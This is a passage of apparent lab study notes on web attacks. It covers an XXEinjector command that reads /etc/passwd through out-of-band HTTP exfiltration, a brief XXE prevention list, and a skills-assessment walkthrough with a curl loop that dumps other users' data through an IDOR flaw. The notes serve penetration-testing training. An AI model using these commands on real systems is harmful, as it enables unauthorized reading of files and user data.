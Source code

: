      vim req.txt
      # edit the request
      # do not include full XML data, only keep the first line and then write XXEINJECT in next line as a position locator

      ruby XXEinjector.rb --host=[10.10.120.10] --httpport=8000 --file=req.txt --path=/etc/passwd --oob=http --phpfilter
      # --path flag for file to be read
      
      # all exfiltrated files will be stored in the Logs folder
      ```

* XXE prevention:

  * avoid outdated components
  * use safe XML config

## Skills Assessment

* For the webapp, we can login using given creds; we can start exploring the app

* In settings, we have option to change password

* If we intercept the request to our profile page after logging in, we can see that an API call to the endpoint '/api.php/user/74' is made, where '74' is the value of our 'uid'; cookies 'PHPSESSID' and 'uid' are also used with their values

* In response to this GET request, we get user details; furthermore, if we change the uid in API endpoint as well as cookie, we can get other users' data

* We can attempt to enumerate further users and store the data in a file:

  ```shell
  #!/bin/bash

  url="http://94.237.62.195:47625"
  api="/api.php/user/"

  for i in {1..100}; do
          curl -sb "PHPSESSID=a3rv802fb28gf4ano0ldqlqg6u;uid=$i" $url$api/$i | jq >> userdata.txt
  done
  ```

* We do not get anything useful from this data as there are no admin users to be found yet

* However, for uid '52', we can see that the 'company' is 'Administrator' - we can try to check more info for this user by intercepting the request to '/profile.php' again and modifying the 'uid' to '52'

* Now we can view the info for this user; but we do not have any difference in functionality
